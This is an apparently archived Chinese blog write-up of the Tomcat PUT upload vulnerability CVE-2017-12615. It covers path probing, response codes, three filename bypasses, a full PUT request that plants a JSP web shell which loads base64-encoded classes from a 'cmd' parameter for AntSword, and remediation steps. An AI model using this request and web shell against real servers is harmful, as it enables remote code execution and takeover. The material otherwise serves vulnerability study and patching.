







# 服务器容器漏洞-Tomcat 的 PUT 方法上传漏洞(CVE-2017-12615) - 挖洞 404 - 博客园

> 原文：[`www.cnblogs.com/wd404/p/17552598.html`](https://www.cnblogs.com/wd404/p/17552598.html)

[(191 条消息) TomcatPUT 的上传漏洞(CVE-2017-12615)_tomcat put_xzhome 的博客-CSDN 博客](https://blog.csdn.net/qq_48985780/article/details/121415487)

[Tomcat PUT 方法任意写文件漏洞（CVE-2017-12615） - oldliutou - 博客园 (cnblogs.com)](https://www.cnblogs.com/oldliutou/p/15759868.html)

1、介绍

名称：Tomcat 的 PUT 方法上传漏洞

编号：CVE-2017-12615

原理：当 Tomcat 运行在 Windows 操作系统时，且启用了 HTTP PUT 请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP 文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

应用：tomcat

版本：Tomcat 7.0.0 to 7.0.81，测试 tomcat 8.5.19 也存在该漏洞

2、阐述

构造路径：

*   为了避免对网站业务影响，构造一个不存在的路径作为测试，请求时 404 响应验证

(1)如果测试路径是/a/b

*   PUT 请求的路径，如果其父目录是不存在的，该漏洞会报 409 响应，content-length:1018
*   作为参考，PUT 提交 https://www.baidu.com/a/b，会报 405
*   需要注意的是，即使存在/a/c 的真实可访问路径，也很难区分/a 是真实的父目录，还是服务器虚构的逻辑目录。
*   处理办法，一般是找寻/a/d.html 这类子路径指向静态文件的父目录。或者以根目录/作为父目录，其直接映射到某物理目录

> 相关的，还有/a/b.jsp 和/a/b.txt 等讨论，但对于本漏洞测试来说无需再拓展

(2)如果测试路径是/b 或/c.txt

*   初次 PUT 请求/b，会报 201 响应，content-length:0。创建文件并写入请求体部的文本内容
*   再次或多次提交 PUT 请求/b，会报 204 响应，无 content-length 字段，响应为空字符串。对文件内容重新赋值为请求体部的文本内容
*   GET 请求/b，会获取到上一次 PUT 提交的请求体部内容

(3)如果测试路径是/b.jsp

*   PUT 请求/b.jsp，会报 404 响应，与无后缀文件或者.txt 后缀的请求形成对比。(如果是 PUT 请求已存在的路径/index.jsp，会报 405 响应)
*   想要进一步验证，或者真实的利用，那么可以依赖以下三种方式绕过：
    *   PUT /xxx.jsp%20
    *   PUT /xxx.jsp::$DATA
    *   PUT /xxx.jsp/

(3-1)PUT /b.jsp/

*   如果/b.jsp 已经存在，则该请求是进行更新/b.jsp 的内容，返回 204 响应，无 content-length 字段，无响应体部
*   如果/b.jsp 未存在，则该请求是创建/b.jsp，并将请求体部写入创建文件。返回 201 响应，content-length:0
*   GET 请求/b.jsp，响应 200，响应体部由上一次 PUT 提交的请求体部决定，支持 jsp 语法。GET 请求/b.jsp/，返回 404 响应

(3-2)PUT /b.jsp%20

*   %20 是三个字符。类似的，测试替换为%22，%30 等也可
*   如果/b.jsp%20 已经存在，则该请求是进行更新/b.jsp%20 的内容，返回 204 响应，无 content-length 字段，无响应体部
*   如果/b.jsp%20 未存在，则该请求是创建/b.jsp%20，并将请求体部写入创建文件。返回 201 响应，content-length:0
*   GET 请求/b.jsp，响应 404。GET 请求/b.jsp%20，才是 PUT 创建和更新的文本内容。即使提交包含 jsp 代码内容，也会直接作为源代码文本输出，而不会执行

(3-3)PUT /b.jsp::$DATA

*   data 机制理论上应该是 windows 的机制，我这里环境是 windows>vm>kali>docker>vulhub，居然测试没有问题。
*   测试过程和结果，与(3-2)基本一致，返回 201 和 204 响应。但是 GET 请求时必须加 PUT 添加的绕过后缀，返回源代码文本

综上所述，直接测试/b.jsp/。

(4)问题

*   需要注意，如果漏洞存在，put 创建文件或者更新文件是一个相对耗时的任务。
*   如果 PUT 请求是关闭连接，那么其后的 GET 请求与 PUT 请求相当于两个独立的并发任务。(自定义工具都是默认请求头部中连接关闭)
*   所以即使漏洞存在，也可能因为多线程问题导致 GET 请求时报 404 或者请求体部中未及时更新
*   解决办法是，PUT 请求后休眠 10 秒再 GET 请求。(测试时 3 秒不足以 PUT 处理完成)

2、测试

2.1 搭建靶场




2.2 msf





2.3 手工测试与利用

*   测试需要构造一个不存在的路径，可以是直接的无后缀名，无需指定为.jsp 文件
*   put 初次请求该路径，返回 201 响应。这个请求可以是无响应体部
*   put 再次请求该路径，返回 204 响应。这个过程会更新路径对应的文件



支持三种上传绕过方式 默认使用 put 加文件名是失败的 需要绕过

> PUT /xxx.jsp%20
> PUT /xxx.jsp::$DATA
> PUT /xxx.jsp/



```
PUT /abc.jsp/ HTTP/1.1
Host: 192.168.0.15:8099
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 849

<%!
      class U extends ClassLoader {
		  U(ClassLoader c){
			  super(c);
		  }
		  public Class g(byte[] b){
			  return super.defineClass(b,0,b.length);
		  }
	  }
	 public byte[] base64Decode(String str) throws Exception{
		 try{
			 Class clazz =Class.forName("sun.misc.BASE64Decoder");
			 return (byte[]) clazz.getMethod("decodeBuffer",String.class).invoke(clazz.newInstance(),str);
		 }catch (Exception e){
			 Class clazz =Class.forName("java.util.Base64");
			 Object decoder =clazz.getMethod("getDecoder").invoke(null);
			 return(byte[])decoder.getClass().getMethod("decode",String.class).invoke(decoder,str);
		 }
	 }
%>
<% 
       String cls =request.getParameter("cmd");
       if(cls != null){
         new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);	 
 }
%>
```


中国蚁剑连接





3、修复方案：

(1)配置 readonly 和 VirtualDirContext 值为 True 或注释参数，禁止使用 PUT 方法并重启 tomcat

注意：如果禁用 PUT 方法，对于依赖 PUT 方法的应用，可能导致业务失效。 

(2)根据官方补丁升级最新版本